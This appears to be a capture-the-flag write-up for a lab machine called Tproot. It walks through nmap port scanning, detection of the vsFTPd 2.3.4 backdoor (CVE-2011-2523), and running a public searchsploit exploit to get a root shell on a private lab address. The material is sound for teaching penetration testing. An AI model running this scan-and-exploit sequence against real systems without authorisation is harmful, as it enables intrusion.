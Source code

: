 # Tproot

## Port Enumeration

We begin our discovery phase using the Nmap tool. Our scan reveals the following open ports:
```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2
```

```ruby
┌──(root㉿kali)-[/home/kali]
└─# nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.18.0.2  
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

A more exhaustive scan of port 21:

```ruby
nmap -p 21 --script=ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221 172.17.0.2
```

We find that it is vulnerable to `vsFTPd version 2.3.4 backdoor`

```ruby

PORT   STATE SERVICE
21/tcp open  ftp
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
| ftp-vsftpd-backdoor: 
|   VULNERABLE:
|   vsFTPd version 2.3.4 backdoor
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2011-2523  BID:48539
|       vsFTPd version 2.3.4 backdoor, this was reported on 2011-07-04.
|     Disclosure date: 2011-07-03
|     Exploit results:
|       Shell command: id
|       Results: uid=0(root) gid=0(root) groups=0(root)
|  
```

## Intrusion

We search for the exploit in `searchsploit` with the following command:

```ruby
searchsploit vsFTPd
```

![alt text](Imagenes/Tproot_1.png)

The most interesting exploit is the backdoor Command Execution without being from Metasploit. We download it as follows:

```ruby
searchsploit -m unix/remote/49757.py
```

And we execute it:

```ruby
python3 49757.py 172.17.0.2
```

![alt text](Imagenes/Tproot_2.png)

We can see how we access with root user.



